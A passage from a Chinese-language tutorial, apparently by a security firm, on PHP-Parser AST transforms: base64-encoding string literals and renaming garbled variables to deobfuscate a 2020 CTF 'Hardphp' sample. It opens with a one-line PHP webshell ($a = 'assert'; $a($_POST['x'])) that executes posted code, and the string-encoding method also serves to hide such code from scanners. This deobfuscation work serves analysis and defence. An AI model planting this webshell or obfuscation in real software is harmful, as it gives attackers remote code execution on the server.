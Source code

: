     
    
    <?php        $a = 'assert';$a($_POST['x']);

因为变量的还原涉及到作用域、存储结构等问题，这里不做探讨。  
 **2.字符串编码解码** 这部分尝试将字符串替换为`base64`加密之后的结果，思路如下：

  * 判断当前节点是否为”Scalar\String_”；
  * 将节点的”value”值进行“base64_encode“编码；
  * 替换原节点为“FuncCall“类型；

代码如下：

  *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    class Base64Reducer extends NodeVisitorAbstract  
        public function leaveNode(Node $node) {        if ($node instanceof Node\Scalar\String_) {            $name = $node->value;            return new Expr\FuncCall(                new Node\Name("base64_decode"),                [new Node\Arg(new Node\Scalar\String_(base64_encode($name)))]            );        }    }}

效果如下：  

  *   *   *   *   *   * 

    
    
    <?php              $str = "Threatbook";?>                  --After parser:--                                  
    $str = base64_decode('VGhyZWF0Ym9vaw=='); 

 **3.CTF混淆文件还原实战** 经过上面两个例子，已经掌握了PHP-
Parser的基础运用，接下来通过还原混淆文件深化一下对于节点的理解，样本是2020年高校战“疫”网络安全分享赛中Hardphp题目的混淆文件，我们将从WriteUP逆向推导出反混淆思路，混淆文件如下：

![](https://gitee.com/fuli009/images/raw/master/public/20230308191059.png)

首先观察可以发现，混淆文件通过“unserialize(base64_decode(“的方式将字符串解码结果赋值给”GLOBALS“数组，然后通过数组值进行运算。由于存在部分乱码的变量名，首先将所有的乱码变量批量重命名。思路如下：

  * 筛选所有“Variable“类型的节点；
  * 通过正则表达式匹配出乱码变量，这种变量名中不会出现字母数字等字符；
  * 通过一个数组存放重命名的变量名，如果某个乱码变量再次出现，通过数组查询新的变量名进行替换。

代码如下：

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    // 变量重命名class ReNameVariable extends NodeVisitorAbstract{  
        public $Count = 0;    public $NewName = [];  
        public function leaveNode(Node $node){        //判断Variable类型的节点        if ($node instanceof Node\Expr\Variable) {            //匹配不含字母数字的乱码变量            if (!preg_match('/^[a-zA-Z0-9_]+$/', $node->name)) {                //如果这个变量再次出现，使用已经有的替换值进行替换                if (in_array($node->name, array_keys($this->NewName))){                    $new_var_name = str_replace($node->name, 'v_' . $this->NewName[$node->name], $node->name);                    return (new Node\Expr\Variable($new_var_name));                    }else{                    //记录新的变量名到数组                    $this->NewName[$node->name] = $this->Count++;                    $new_var_name = str_replace($node->name, 'v_' . $this->NewName[$node->name], $node->name);                    return (new Node\Expr\Variable($new_var_name));                    }            }            return ;        }    }
